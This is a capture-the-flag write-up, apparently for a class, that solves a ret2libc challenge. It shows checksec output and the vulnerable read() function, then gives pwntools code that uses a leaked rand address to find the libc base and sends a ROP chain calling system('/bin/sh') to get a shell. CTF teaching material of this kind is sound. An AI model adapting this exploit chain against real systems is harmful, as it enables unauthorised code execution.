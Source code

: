 # Ret2libc:Solution

The binary is compiled with NX and Partial RELRO
```
 pwn checksec chal.bin                                                      
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)              
[*] '/root/workspace/vuln/ret2libc/chal/chal.bin'                              
    Arch:     amd64-64-little                                                  
    RELRO:    Partial RELRO                                                    
    Stack:    No canary found                                                  
    NX:       NX enabled                                                       
    PIE:      No PIE (0x400000) 
```
    
and is dynamically linked to GLIBC.
```
ldd chal.bin
    linux-vdso.so.1 (0x00007fff24bd2000)
    libc.so.6 => /lib64/libc.so.6 (0x00007f4778600000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f477896e000)
```

We can exploit the read() function.
```
ssize_t vuln()
{
    printf("--------------------------------…");
    printf("Random Value: %p\n", rand);
    printf("--------------------------------…");
    printf("I'm standing on the edge\n");
    printf("Feeling like I'm just a pawn\n");
    printf(" - \x1b[0;31mRand\x1b[0mon - Ima…");
    printf("--------------------------------…");
    void var_10;
    return read(0, &var_10, 0x1337);
 }
 ```
 
The above function gives us the location of a miscalled function rand. This leak allows us to determine the libc version and calculate the libc base address. 

We save the location of rand in the plt that is recieved from the command line. Then we rand in the got which is automatically returned as an int. Using those two values we can calculate the libc base address. 

```
io.recvuntil(b'Random Value: ')
plt_val = int(io.recvline(), 16)
got_val = libc.sym['rand'] # sym can find the value by name in the got, automatically an int
libc_base  = plt_val - got_val
```

Add 16 bytes of padding and align the stack. Find a pop rdi gadget to clear out rdi and add a bin/sh into it. Then call system and send the chain to get a shell.
```
chain = cyclic(16)
chain += p64(libc_base + r.find_gadget(['ret'])[0]) # 8 bytes to align stack
chain += p64(libc_base + r.find_gadget(['pop rdi','ret'])[0]) # returns list of gadgets [0] takes first one
chain += p64(libc_base + next(libc.search(b'/bin/sh\x00')))
chain += p64(libc_base + libc.sym['system'])
io.sendline(chain)
io.interactive()
```

Send the chain and get the flag!
```
flag{1ts_A_RAND0m_w0rlD}
```

Resources:
* Class slides
* Demo solve script
* Louie
* Alex
